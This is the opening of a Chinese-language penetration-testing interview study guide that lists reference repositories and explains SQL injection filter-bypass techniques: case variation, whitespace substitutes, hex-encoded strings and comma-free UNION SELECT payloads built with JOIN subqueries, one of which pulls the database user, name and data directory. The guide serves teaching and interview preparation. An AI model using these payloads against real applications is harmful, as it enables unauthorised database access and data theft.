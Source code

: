 [toc]

**Ref**：

> https://github.com/Leezj9671/Pentest_Interview
>
> https://github.com/vvmdx/Sec-Interview-4-2023
>
> https://github.com/FeeiCN/SecurityInterviewGuide
>
> https://github.com/tangxiaofeng7/Security_Q-A
>
> https://github.com/d1nfinite/sec-interview



# WEB

## 注入

### SQL注入绕过

#### 1.大小写绕过

数据库使用不区分大小写的方式来处理SQL关键字，所以可以使用大小写变种来绕过。

#### 2.过滤空格绕过

-   两个空格代替一个空格
-   tab
-   %a0
-   `%20 %09 %0a %0b %0c %0d %a0 %00 `
-   注释代替`/**/ /*!*/`
-   使用浮点数：`select * from users where id=8E0union select 1,2,3`
-   括号绕过

#### 3.过滤引号绕过

使用十六进制

example：

```sql
select column_name  from information_schema.tables where table_name="users"
select column_name  from information_schema.tables where table_name=0x7573657273
```

#### 4.过滤逗号绕过

可以使用功能from或者offset或者join或者casewhen绕过。

**join**

```sql
union select 1,2,3,4;
union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);
union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);
```
